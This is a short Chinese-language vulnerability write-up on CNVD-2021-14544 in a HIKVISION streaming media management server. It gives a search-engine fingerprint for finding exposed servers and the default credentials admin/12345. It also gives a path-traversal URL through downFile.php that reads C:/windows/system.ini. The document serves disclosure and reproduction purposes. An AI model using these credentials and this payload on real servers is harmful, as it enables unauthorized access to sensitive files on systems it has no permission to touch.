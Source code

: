 # HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

```
HIKVISION 流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title="流媒体管理服务器"
```

## 漏洞复现

登录页面如下， 默认账号密码为 `admin/12345`

![image-20220519172955875](./images/202205191729966.png)

访问如下URL下载`C:/windows/system.ini`文件

```
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```

